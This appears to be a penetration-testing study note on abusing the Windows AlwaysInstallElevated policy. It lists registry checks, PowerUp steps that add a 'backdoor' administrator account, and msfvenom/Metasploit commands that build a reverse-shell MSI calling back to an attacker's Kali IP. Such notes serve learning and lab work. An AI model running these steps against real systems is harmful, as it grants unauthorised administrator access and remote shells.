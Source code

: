 # Verification
---
- Verify the value of registries using:
	- `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
	- `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
		![[Pasted image 20250417144553.png]]
	- `0x1`means 1, meaning it is **==ON==**

- We can also use `powerup.ps1`(`Invoke-AllChecks`)
	- ![[Pasted image 20250417145031.png]]
# Exploitation
---
- **==Run this after importing and running `PowerUp.ps1`==** -> PowerUp.ps1 will do the job for us 
	- `Write-UserAddMSI`: Created `.msi`file for us
		- ![[Pasted image 20250417145237.png]]
	- Check Existing `administrator`group users:
		- ![[Pasted image 20250417145354.png]]
- Run the generated `msi`file:
	- ![[Pasted image 20250417145435.png]]
- Create **new `backdoor`user**:
	- ![[Pasted image 20250417145613.png]]
- Added `backdoor`user as administrator:
	- ![[Pasted image 20250417145656.png]]


# Another way to exploit
---
1. Open command prompt and type: `msfconsole `
2. In Metasploit (msf > prompt) type: `use multi/handler`  
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`  
4. In Metasploit (msf > prompt) type: set `lhost [Kali VM IP Address]`  
5. In Metasploit (msf > prompt) type: `run`  
6. Open an **additional command prompt and type**: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi`  
7. Copy the generated file, `setup.msi`, to the Windows VM.

# Gaining `NT/Authority` from low level user
---
- We can use: `exploit/windows/local/always_install_elevated`and set a shell to low level user and then run this
	- ![[Pasted image 20250417150715.png]]